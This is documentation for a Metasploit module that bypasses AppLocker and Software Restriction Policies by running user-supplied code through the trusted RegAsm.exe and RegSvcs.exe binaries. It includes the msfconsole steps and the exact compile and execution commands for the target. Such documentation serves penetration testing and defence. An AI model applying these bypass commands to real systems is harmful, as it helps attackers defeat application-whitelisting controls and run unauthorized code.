 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binaries RegAsm.exe or RegSvcs.exe to execute user supplied code as these binaries are located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block RegAsm.exe, RegSvcs.exe or the "Microsoft.Net" directory.

## Options

- **TXT_FILE** - Filename for the evasive file (default: regasm_regsvcs.txt).
- **SNK_FILE** - Filename for the .snk file (default: key.snk). (note: to aid furter evasion it is recommended to create your own .snk file ref: https://docs.microsoft.com/en-us/dotnet/framework/app-domains/how-to-sign-an-assembly-with-a-strong-name)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_regasm_regsvcs`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] regasm_regsvcs.txt stored at /root/.msf4/local/regasm_regsvcs.txt`
  7. `[+] key.snk stored at /root/.msf4/local/key.snk`
  8. `[*] Copy regasm_regsvcs.txt and key.snk to the target`
  9. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regasm_regsvcs.dll /keyfile:key.snk regasm_regsvcs.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  10. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regsvcs.exe regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] or`
  12. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regasm.exe /U regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1121/
